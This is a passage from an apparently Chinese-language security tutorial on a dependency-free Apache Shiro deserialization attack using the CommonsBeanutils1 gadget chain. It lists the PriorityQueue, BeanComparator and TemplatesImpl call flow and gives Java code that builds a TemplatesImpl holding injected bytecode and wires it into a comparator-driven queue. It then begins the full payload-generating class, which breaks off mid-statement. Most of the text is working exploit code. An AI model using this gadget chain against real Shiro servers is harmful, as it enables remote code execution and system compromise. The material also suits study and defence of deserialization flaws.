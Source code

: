 ### 无依赖的Shiro攻击

攻击调用流程

```
PriorityQueue.readObject方法
BeanComparator.compare方法
TemplatesImpl.getOutputProperties方法
TemplatesImpl.defineClass方法
```

首先创建TemplatesImpl对象

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```

然后创建BeanComparator

```java
final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
```

接下来创建一个有2个元素的PriorityQueue队列，传入刚才的BeanComparator用于元素的比较

```java
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
queue.add("1");
queue.add("1");
```

最后就是把comparator原本为空的属性替换成outputProperties，把queue中的对象替换为2个TemplatesImpl对象

```java
setFieldValue(comparator, "property", "outputProperties");
setFieldValue(queue, "queue", new Object[]{obj, obj});
```

完整的攻击代码如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator(null,
```